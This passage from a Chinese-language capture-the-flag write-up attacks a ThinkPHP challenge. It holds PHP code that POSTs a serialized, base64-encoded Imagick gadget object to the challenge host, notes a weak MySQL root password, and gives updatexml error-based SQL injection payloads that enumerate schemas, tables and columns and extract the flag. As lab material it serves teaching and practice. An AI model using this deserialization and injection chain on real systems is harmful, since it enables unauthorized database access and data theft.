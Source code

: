 ```php

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));


$curl = curl_init();
curl_setopt_array($curl, array(
    CURLOPT_URL => "http://6382172d-0bab-4e87-b434-7d711efad721.node3.buuoj.cn/",
    CURLOPT_RETURNTRANSFER => true,
    CURLOPT_ENCODING => "",
    CURLOPT_MAXREDIRS => 10,
    CURLOPT_TIMEOUT => 3,
    CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
    CURLOPT_CUSTOMREQUEST => "POST",
    CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
    CURLOPT_HTTPHEADER => array(
        "Postman-Token: 348e180e-5893-4ab4-b1d4-f570d69f228e",
        "cache-control: no-cache"
    ),
));
$response = curl_exec($curl);
$err = curl_error($curl);
curl_close($curl);
if ($err) {
    echo "cURL Error #:" . $err;
} else {
    echo $response;
}
}
```

![image-20211219200242251](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219200242251.png)

看到了mysql用户，弱口令密码root

之后就可以把我们的伪服务端撤了，换成真服务端的，进行一个注入

- 使用目标的数据库配置再次进行反序列化
- 触发`DELETE`语句的SQL注入

```php
$this->data[$this->pk] = array(
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(table_name),31) from information_schema.tables where table_schema='test'),0x7e),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(column_name),31) from information_schema.columns where table_schema='test'),0x7e),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(flag),31) from test.flag),0x7e),1)#",
                "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(flag),31) from test.flag),0x7e),1)#",
                "where" => "1=1"
            );
```
